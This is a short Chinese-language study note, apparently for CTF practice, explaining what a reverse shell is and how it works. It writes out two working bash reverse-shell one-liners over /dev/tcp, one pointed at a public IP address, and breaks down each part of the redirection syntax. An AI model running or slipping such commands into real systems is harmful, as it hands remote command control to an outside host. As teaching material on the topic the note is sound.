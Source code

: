 ```yaml
---
title: 什么是反弹shell及原理
tags: 
- linux
- ctf
---
```




**什么是反弹shell？**

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。简单理解就是被控制端的访问控制端端口，并将控制端的标准输入从被控制端重定向到控制端，从而在控制端执行被控制端系统的命令。



参考链接：https://blog.csdn.net/haoge1998/article/details/124259580



bash -i >& /dev/tcp/192.168.0.1/4444 0>&1

**bash -c "bash -i >& /dev/tcp/124.221.149.161/9999 0>&1" (获取交互式的反弹shell)** 



bash -i：打开一个交互式的bash

\>&：将标准错误输出合并并重定向到标准输出，也可以写成&>

/dev/tcp/192.168.0.1/4444：调用socket，建立socket连接，其中192.168.0.1为要反弹的主机IP，4444为端口

0>&1：标准输入重定向到标准输出，实现你与反弹出来的shell的交互，可以接受用户输入，0>&1和0<&1作用相同



/dev/tcp 说Linux的一个特殊设备，打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个bash命令行的过程中。



三种输入输出的状况：

标准输入：代码为0；或称为stdin；使用的方式为<

标准输出：代码为1；或称为stdout；使用方式为1>

错误输出：代码为2；或称为stderr；使用方式为2>